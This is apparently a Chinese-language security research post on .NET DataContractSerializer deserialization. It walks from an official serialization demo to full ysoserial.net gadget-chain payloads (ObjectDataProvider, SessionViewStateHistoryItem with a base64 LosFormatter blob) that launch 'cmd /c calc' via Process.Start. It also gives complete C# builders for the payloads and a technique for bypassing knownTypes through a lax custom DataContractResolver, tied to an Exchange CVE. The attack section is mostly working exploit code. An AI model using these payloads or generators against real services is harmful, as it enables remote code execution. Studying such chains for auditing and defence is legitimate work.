





# DataContractSerializer

使用提供的数据协定，将对象序列化和反序列化为 XML 流或文档，多用于序列化和反序列化 Windows Communication Foundation (WCF) 消息中发送的数据。

# demo

DataContractSerializer位于System.Runtime.Serialization命名空间，继承自抽象类XmlObjectSerializer。有多个序列化相关方法。



看一个官网文档给出的demo

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Xml;

namespace DataContractDeserialize
{
    // You must apply a DataContractAttribute or SerializableAttribute
    // to a class to have it serialized by the DataContractSerializer.
    [DataContract(Name = "Customer", Namespace = "http://www.contoso.com")]
    class Person
    {
        [DataMember()]
        public string FirstName;
        [DataMember]
        public string LastName;
        [DataMember()]
        public int Age;

        public Person(string newfName, string newLName, int age)
        {
            FirstName = newfName;
            LastName = newLName;
            Age = age;
        }
    }

    class Program
    {
        static void Main(string[] args)
        {
            try
            {
                WriteObject("DataContractSerializerExample.xml");
                ReadObject("DataContractSerializerExample.xml");
            }

            catch (SerializationException serExc)
            {
                Console.WriteLine("Serialization Failed");
                Console.WriteLine(serExc.Message);
            }
            catch (Exception exc)
            {
                Console.WriteLine("The serialization operation failed: {0} StackTrace: {1}",
                exc.Message, exc.StackTrace);
            }

            finally
            {
                Console.WriteLine("Press <Enter> to exit....");
                Console.ReadLine();
            }
        }

        public static void WriteObject(string fileName)
        {
            Console.WriteLine("Creating a Person object and serializing it.");
            Person p1 = new Person("bill", "gates", 100);
            FileStream writer = new FileStream(fileName, FileMode.Create);
            DataContractSerializer ser = new DataContractSerializer(typeof(Person));
            ser.WriteObject(writer, p1);
            writer.Close();
        }

        public static void ReadObject(string fileName)
        {
            Console.WriteLine("Deserializing an instance of the object.");
            FileStream fs = new FileStream(fileName, FileMode.Open);
            XmlDictionaryReader reader = XmlDictionaryReader.CreateTextReader(fs, new XmlDictionaryReaderQuotas());
            DataContractSerializer ser = new DataContractSerializer(typeof(Person));

            // Deserialize the data and read it from the instance.
            Person deserializedPerson = (Person)ser.ReadObject(reader, true);
            reader.Close();
            fs.Close();
            Console.WriteLine(String.Format("{0} {1}, Age: {2}", deserializedPerson.FirstName, deserializedPerson.LastName, deserializedPerson.Age));
        }
    }
}
```

代码关键点在于`new DataContractSerializer(typeof(Person))`指定序列化对象类型Type，然后调用ReadObject()和WriteObject()进行序列化反序列化。

通过特性DataContract标记类为可被DataContractSerializer序列化处理，DataMember特性用于类成员。生成的xml如下

```xml
<Customer xmlns="http://www.contoso.com" xmlns:i="http://www.w3.org/2001/XMLSchema-instance"><Age>100</Age><FirstName>bill</FirstName><LastName>gates</LastName></Customer>
```

另外，官方文档指出在DataContractSerializer部分信任模式下运行，在反序列化期间，不调用目标对象的构造函数。

# 攻击链

yso中对于DataContractSerializer有多个链支持，比如ObjectDataProvider、Principal系列和Identity系列。下文讲解ObjectDataProvider和SessionViewStateHistoryItem

## ObjectDataProvider

使用yso生成

```xml
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]],System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfProcessObjectDataProviderpaO_SOqJL xmlns="http://schemas.datacontract.org/2004/07/System.Data.Services.Internal"
                                                         xmlns:c="http://www.w3.org/2001/XMLSchema"
                                                         xmlns:i="http://www.w3.org/2001/XMLSchema-instance"
                                                         xmlns:z="http://schemas.microsoft.com/2003/10/Serialization/"
                                                         >
      <ExpandedElement z:Id="ref1" >
        <__identity i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System"/>
      </ExpandedElement>
      <ProjectedProperty0 xmlns:a="http://schemas.datacontract.org/2004/07/System.Windows.Data">
        <a:MethodName>Start</a:MethodName>
        <a:MethodParameters xmlns:b="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
          <b:anyType i:type="c:string">cmd</b:anyType>
          <b:anyType i:type="c:string">/c calc</b:anyType>
        </a:MethodParameters>
        <a:ObjectInstance z:Ref="ref1"/>
      </ProjectedProperty0>
    </ExpandedWrapperOfProcessObjectDataProviderpaO_SOqJL>
</root>
```

该链原理在之前的文章中讲过了，不再赘述。示例代码

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Xml;

namespace DataContractDeserialize
{
    class Program
    {
        static void Main(string[] args)
        {
            ReadObject("DataContractSerializerExample.xml");
            Console.ReadKey();
        }
        public static void ReadObject(string fileName)
        {
            string xml = File.ReadAllText(fileName);
            XmlDocument xmlDocument = new XmlDocument();
            xmlDocument.LoadXml(xml);
            XmlNode rootNode = xmlDocument.SelectSingleNode("root");
            XmlNode typeNode = rootNode.Attributes.GetNamedItem("type");
            DataContractSerializer dataContractSerializer = new DataContractSerializer(Type.GetType(typeNode.InnerText));
            dataContractSerializer.ReadObject(new XmlTextReader(new StringReader(rootNode.InnerXml)));
        }
    }
}
```

在GitHub上也找到了一些类似的写法 https://github.com/waratek/Spiracle.NET/blob/be4fbb387370fb9764cdf9634f1d38cade63eb44/WebSite/Deserialization.aspx.cs#L63

## SessionViewStateHistoryItem

ysoserial.net中生成的payload如下

```xml
<root type="System.Web.UI.MobileControls.SessionViewState+SessionViewStateHistoryItem, System.Web.Mobile, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"><SessionViewState.SessionViewStateHistoryItem xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:x="http://www.w3.org/2001/XMLSchema" xmlns:z="http://schemas.microsoft.com/2003/10/Serialization/" xmlns="http://schemas.datacontract.org/2004/07/System.Web.UI.MobileControls">
  <s i:type="x:string" xmlns="">/wEykQcAAQAAAP////8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAACzBTw/eG1sIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9InV0Zi0xNiI/Pg0KPE9iamVjdERhdGFQcm92aWRlciBNZXRob2ROYW1lPSJTdGFydCIgSXNJbml0aWFsTG9hZEVuYWJsZWQ9IkZhbHNlIiB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwvcHJlc2VudGF0aW9uIiB4bWxuczpzZD0iY2xyLW5hbWVzcGFjZTpTeXN0ZW0uRGlhZ25vc3RpY3M7YXNzZW1ibHk9U3lzdGVtIiB4bWxuczp4PSJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dpbmZ4LzIwMDYveGFtbCI+DQogIDxPYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U+DQogICAgPHNkOlByb2Nlc3M+DQogICAgICA8c2Q6UHJvY2Vzcy5TdGFydEluZm8+DQogICAgICAgIDxzZDpQcm9jZXNzU3RhcnRJbmZvIEFyZ3VtZW50cz0iL2MgY2FsYyIgU3RhbmRhcmRFcnJvckVuY29kaW5nPSJ7eDpOdWxsfSIgU3RhbmRhcmRPdXRwdXRFbmNvZGluZz0ie3g6TnVsbH0iIFVzZXJOYW1lPSIiIFBhc3N3b3JkPSJ7eDpOdWxsfSIgRG9tYWluPSIiIExvYWRVc2VyUHJvZmlsZT0iRmFsc2UiIEZpbGVOYW1lPSJjbWQiIC8+DQogICAgICA8L3NkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgIDwvc2Q6UHJvY2Vzcz4NCiAgPC9PYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U+DQo8L09iamVjdERhdGFQcm92aWRlcj4L</s>
</SessionViewState.SessionViewStateHistoryItem></root>
```

查看yso的代码



获取SessionViewState的内部类SessionViewStateHistoryItem



这个类的反序列化构造函数中直接进行LosFormatter反序列化


所以构造代码，info中直接填充`s`字段为LosFormatter序列化之后的字符串即可。

```csharp
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Text;
using System.Web.UI;
using System.Windows.Data;
using System.Windows.Markup;
using System.Xml;

namespace DataContractDeserialize
{
    [Serializable]
    public class SessionViewStateHistoryItemMarshal : ISerializable
    {
        public SessionViewStateHistoryItemMarshal(string strB64LosFormatterPayload)
        {
            B64LosFormatterPayload = strB64LosFormatterPayload;
        }

        private string B64LosFormatterPayload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type myType_SessionViewState = Type.GetType("System.Web.UI.MobileControls.SessionViewState, System.Web.Mobile, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");
            Type[] nestedTypes = myType_SessionViewState.GetNestedTypes(BindingFlags.NonPublic | BindingFlags.Instance);
            info.SetType(nestedTypes[0]); // to reach the SessionViewStateHistoryItem class (private)
            info.AddValue("s", B64LosFormatterPayload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;
            _xaml = XamlWriter.Save(odp);
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            WriteObject("a.xml");
            ReadObject("a.xml");
            Console.ReadKey();
        }

        public static void WriteObject(string fileName)
        {
            string losFormatterPayload;
            using (MemoryStream memory = new MemoryStream())
            {
                LosFormatter losFormatter = new LosFormatter();
                losFormatter.Serialize(memory, new TextFormattingRunPropertiesMarshal("calc"));
                losFormatterPayload = Encoding.UTF8.GetString(memory.ToArray());
            }

            string payload = $@"<root type=""System.Web.UI.MobileControls.SessionViewState+SessionViewStateHistoryItem, System.Web.Mobile, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a""><SessionViewState.SessionViewStateHistoryItem xmlns:i=""http://www.w3.org/2001/XMLSchema-instance"" xmlns:x=""http://www.w3.org/2001/XMLSchema"" xmlns:z=""http://schemas.microsoft.com/2003/10/Serialization/"" xmlns=""http://schemas.datacontract.org/2004/07/System.Web.UI.MobileControls"">
  <s i:type=""x:string"" xmlns="""">{losFormatterPayload}</s>
</SessionViewState.SessionViewStateHistoryItem></root>";
            File.WriteAllText(fileName, payload);
        }

        public static void ReadObject(string fileName)
        {
            string xml = File.ReadAllText(fileName);
            XmlDocument xmlDocument = new XmlDocument();
            xmlDocument.LoadXml(xml);
            XmlNode rootNode = xmlDocument.SelectSingleNode("root");
            XmlNode typeNode = rootNode.Attributes.GetNamedItem("type");
            DataContractSerializer dataContractSerializer = new DataContractSerializer(Type.GetType(typeNode.InnerText));
            dataContractSerializer.ReadObject(new XmlTextReader(new StringReader(rootNode.InnerXml)));
        }
    }
}
```

# 审计

审计需要关注的是type的值是否可控。涉及到三个点：

1. type可以通过xml解析拿到type属性
2. 通过构造函数中的`IEnumerable<Type> knownTypes`参数控制type
3. 通过构造函数的`DataContractResolver`参数，审计自定义类型转换器对type的处理是否可控。
4. 构造函数的IDataContractSurrogate参数，关注其实现。**这个在DataContractJsonSerializer一节中讲解，本文不讲。**

前两个不讲了，主要看后两个。当我们不可控制Type，但是Type实例中有松散的数据类型(如object类型)可控，那么如果使用了自定义的类型解析器DataContractResolver传入构造函数，并且自定义解析器中没有对type进行限制，那么仍然可以RCE。

```csharp
using System;
using System.IO;
using System.Reflection;
using System.Runtime.Serialization;
using System.Text;
using System.Windows.Data;
using System.Xml;

namespace DataContractDeserialize
{
    [DataContract]
    class MyClass
    {
        [DataMember]
        public object o;
    }
    [DataContract]
    class ProcessClass
    {
        public void Start(string cmd)
        {
            Console.WriteLine(cmd);
        }
    }
    class Program
    {
        static void Main(string[] args)
        {

            MyClass myClass = new MyClass();
            ObjectDataProvider objectDataProvider = new ObjectDataProvider();
            objectDataProvider.MethodName = "Start";
            objectDataProvider.MethodParameters.Add("calc");
            objectDataProvider.ObjectInstance = new ProcessClass();
            myClass.o = objectDataProvider;

            DataContractSerializer ser = new DataContractSerializer(typeof(MyClass), null, int.MaxValue, true, false, null, new MyDataContractResolver());
            using (MemoryStream memory = new MemoryStream())
            {
                ser.WriteObject(memory, myClass);
                Console.WriteLine(Encoding.UTF8.GetString(memory.ToArray()));
            }
            using (MemoryStream memory1 = new MemoryStream(Encoding.UTF8.GetBytes(File.ReadAllText(@"C:\Users\ddd\source\repos\NetSerializer\DataContract\bin\Debug\a.xml"))))
            {
                ser.ReadObject(memory1);
            }
            //Console.WriteLine(Process.GetCurrentProcess().GetType().AssemblyQualifiedName);
            Console.ReadKey();
        }
    }

    internal class MyDataContractResolver : DataContractResolver
    {
        public override Type ResolveName(string typeName, string typeNamespace, Type declaredType, DataContractResolver knownTypeResolver)
        {
            Type type = Type.GetType(typeName, false);
            if (type == null)
            {
                type = Assembly.Load(typeNamespace).GetType(typeName, false);
            }
            return type ?? knownTypeResolver.ResolveName(typeName, typeNamespace, declaredType, null);
        }

        public override bool TryResolveType(Type type, Type declaredType, DataContractResolver knownTypeResolver, out XmlDictionaryString typeName, out XmlDictionaryString typeNamespace)
        {
            typeName = new XmlDictionaryString(XmlDictionary.Empty, type.FullName, 0);
            typeNamespace = new XmlDictionaryString(XmlDictionary.Empty, type.Assembly.FullName, 0);
            return true;
        }
    }
}
```

看自己实现的类型解析器，在要序列化的对象类型不在knownTypes列表中，会触发自定义的类型解析器，将type和命名空间传入。



而我们自己写的类型解析器直接进行加载类型并返回，所以可以拿到对应的类型。相当于绕过了knownTypes



生成的xml如下

```xml
<MyClass xmlns="http://schemas.datacontract.org/2004/07/DataContractDeserialize"
    xmlns:i="http://www.w3.org/2001/XMLSchema-instance">
    <o i:type="a:System.Windows.Data.ObjectDataProvider"
        xmlns:a="PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35">
        <IsInitialLoadEnabled xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data">true</IsInitialLoadEnabled>
        <ConstructorParameters i:type="a:MS.Internal.Data.ParameterCollection"
            xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data"
            xmlns:b="http://schemas.microsoft.com/2003/10/Serialization/Arrays"/>
        <IsAsynchronous xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data">false</IsAsynchronous>
        <MethodName xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data">Start</MethodName>
        <MethodParameters i:type="a:MS.Internal.Data.ParameterCollection"
            xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data"
            xmlns:b="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
            <b:anyType i:type="c:System.String"
                xmlns:c="mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">calc</b:anyType>
        </MethodParameters>
        <ObjectInstance i:type="b:DataContractDeserialize.ProcessClass"
            xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data"
            xmlns:b="DataContract, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null"/>
        <ObjectType i:type="c:System.RuntimeType" z:FactoryType="c:System.UnitySerializationHolder"
            xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data"
            xmlns:b="http://schemas.datacontract.org/2004/07/System"
            xmlns:c="mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
            xmlns:z="http://schemas.microsoft.com/2003/10/Serialization/">
            <Data i:type="c:System.String"
                xmlns="">DataContractDeserialize.ProcessClass</Data>
            <UnityType i:type="c:System.Int32"
                xmlns="">4</UnityType>
            <AssemblyName i:type="c:System.String"
                xmlns="">DataContract, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null</AssemblyName>
        </ObjectType>
    </o>
</MyClass>
```

把ObjectInstance的type替换为`System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089`，然后加上`__identity`字段，不然会报错。修改一下之后payload如下：

```xml
<MyClass xmlns="http://schemas.datacontract.org/2004/07/DataContractDeserialize"
  xmlns:i="http://www.w3.org/2001/XMLSchema-instance">
  <o i:type="a:System.Windows.Data.ObjectDataProvider"
    xmlns:a="PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35">
    <IsInitialLoadEnabled xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data">true</IsInitialLoadEnabled>
    <ConstructorParameters i:type="a:MS.Internal.Data.ParameterCollection"
      xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data"
      xmlns:b="http://schemas.microsoft.com/2003/10/Serialization/Arrays"/>
    <IsAsynchronous xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data">false</IsAsynchronous>
    <MethodName xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data">Start</MethodName>
    <MethodParameters i:type="a:MS.Internal.Data.ParameterCollection"
      xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data"
      xmlns:b="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
      <b:anyType i:type="c:System.String"
        xmlns:c="mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">calc</b:anyType>
    </MethodParameters>
    <ObjectInstance i:type="System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
      xmlns="http://schemas.datacontract.org/2004/07/System.Windows.Data">
      <__identity i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System"/>
    </ObjectInstance>
  </o>
</MyClass>
```

然后反序列化就会触发Process的Start了。

# 后文

本文讲解了DataContractSerializer反序列化以及SessionViewStateHistoryItem攻击链，并且讲解了控制type的几种方法，其中对于DataContractResolver在Exchange CVE-2021-28482反序列化漏洞有实际应用。